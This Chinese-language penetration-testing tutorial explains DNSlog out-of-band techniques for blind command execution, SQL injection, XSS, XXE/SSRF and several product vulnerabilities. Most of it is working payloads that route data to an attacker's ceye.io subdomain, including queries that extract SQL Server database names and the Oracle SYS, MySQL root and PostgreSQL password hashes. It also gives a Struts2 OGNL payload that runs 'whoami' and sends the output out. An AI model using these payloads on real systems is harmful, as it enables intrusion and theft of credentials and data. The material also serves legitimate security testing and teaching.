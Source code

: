 在渗透环境时，我们经常会遇到疑似命令执行还有些bool注入和延时注入，但是都没有回显。

命令执行我们可能会用各种各样的请求来判断是否存在命令执行，对于bool注入和延时注入这两种注入类型的缺点就是速度慢，效率低，一个是基于对错判断数据，一个是基于访问时间来判断数据，dnslog的出现就正好弥补了这样的缺陷。

## 0x00 原理 {#0x00-原理}

        **首先需要有一个可以配置的域名，比如：ceye.io，然后通过代理商设置域名 ceye.io 的 nameserver 为自己的服务器 A，然后再服务器 A 上配置好 DNS Server，这样一来所有 ceye.io 及其子域名的查询都会到 服务器 A 上，这时就能够实时地监控域名查询请求了，图示如下。**

![](/assets/dnslog1.png)

DNS在解析的时候会留下日志，咱们这个就是读取多级域名的解析日志，来获取信息

简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。

## 0x01 利用 {#0x01-利用}

首先给大家分享[一个免费的dnslog平](http://ceye.io/)台\(ps:要是有cloudeye激活码的可以忽略\)。

平台会给每一个会员分一个二级域名`xxx.ceye.io`。

简单的来说，dnslog平台自己保留dns的日志信息，并对应每个会员一个二级域名，这样我们可以通过

```
ping test.xxxxx.ceye.io
```

这样的多级域名方式，把我们需要返回的信息链接到url中，然后分析日志，test部分就是我们得到的信息。

### 0x01.1 命令执行 {#0x01-1-命令执行}

在我们找到命令执行漏洞的时候，我们可以执行这样的命令判断:

     linux:
     curl http://ip.port.domain.ceye.io/`whoami`
     ping `whoami`.ip.port.domain.ceye.io
     windows:
     ping %USERNAME%.domain.ceye.io


这时候就可以去dnslog瓶体查看到信息![](/assets/dnslog4.png)![](/assets/dnslog2.png)![](/assets/dnslog3.png)

### 0x01.2 SQL注入 {#0x01-2-SQL注入}

#### **SQL Server**

存储程序用于获取所有文件夹的列表和给定文件夹内部的子文件夹。

```
DECLARE @host varchar(1024);
注册一个名为@host的变量，类型为varchar。
SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';
获取db_name()然后转换成varchar类型，然后吧获取的db_name()返回值拼接到dnslog平台给我们的子域名里面，然后赋值给@host变量。
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
列远程主机的foobar$目录,由于是远程主机，所以会做一个dns解析，这样我们的dns平台就能得到日志了
http://xxxx.com.cn/?Id=123';DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');--

```

#### **Oracle**

UTL-INADDR包用于互联网的寻址–诸如检索本地和远程主机的主机名和IP的地址:

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

#### **MySQL**

 MySQL的函数LOAD\_FILE\(\)读取文件内容并将其作为字符串返回：LOAD\_FILE\(\):

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc'));

```

#### **PostgreSQL**

PostgreSQL的声明COPY用于在文件系统的文件和表之间拷贝数据:

```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

![](/assets/dnslog5.png)![](/assets/dnslog6.png)

### **0x01.3 XSS（无回显）**

通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

payload:&gt;&lt;img src=http://xss.xxxx.ceye.io/aaa&gt;让src请求我们的dnslog平台



### 0x01.4 ssrf\(无回显\)

payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

### 0x01.5 Struts2

```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}

xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

### 0x01.6 FFMpeg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

### 0x01.7 Weblogic

```
xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

### 0x01.8 ImageMagick

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

### 0x01.9 Resin

```
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

### 0x01.10 Discuz

```
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```



